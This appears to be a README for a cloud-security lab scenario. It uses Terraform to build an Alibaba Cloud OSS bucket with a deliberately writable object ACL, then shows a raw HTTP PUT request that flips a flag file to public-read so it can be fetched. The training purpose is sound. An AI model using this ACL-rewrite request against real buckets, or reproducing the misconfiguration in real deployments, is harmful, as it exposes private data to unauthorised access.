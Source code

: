 # Description

English | [中文](./README_CN.md)

This is a script that helps you quickly build ACL read/write scenario for storage bucket objects

Although you may not encounter it in a real situation, but have fun!

## Git clone

```bash
cd /TerraformGoat/aliyun/oss/object_acl_writable/ 
```

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```bash
terraform init
```

![image-20220425190538237](../../../images/image-20220425190538237.png)

```bash
terraform apply
```

![image-20220425190558881](../../../images/image-20220425190558881.png)

After confirming that there are no problems, type yes and enter to quickly build

![image-20220425190632275](../../../images/image-20220425190632275.png)

Access the /flag.txt of this bucket directly

![image-20220425190700830](../../../images/image-20220425190700830.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error>
  <Code>AccessDenied</Code>
  <Message>You do not have read permission on this object.</Message>
  <RequestId>626680CFF343753037B4C0F6</RequestId>
  <HostId>hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com</HostId>
</Error>
```

But we can check the ACL permissions of this object via *?acl*

![image-20220425190747906](../../../images/image-20220425190747906.png)

The ACL of the object can then be changed to public-read by the PUT method, and we need to add the *x-oss-object-acl* parameter to the request header

```http
PUT /flag.txt?acl HTTP/1.1
Host: hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com
x-oss-object-acl: public-read
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: image/avif,image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://hx-cloud-security-ctf-v5f29.oss-cn-beijing.aliyuncs.com/
```

![image-20220425190836248](../../../images/image-20220425190836248.png)

Successfully modified the object's ACL, now use the GET method to get

![image-20220425191033750](../../../images/image-20220425191033750.png)

## Destruction Challenge

```bash
terraform destroy
```

Then just type yes and wait for the destruction

![image-20220425191136549](../../../images/image-20220425191136549.png)
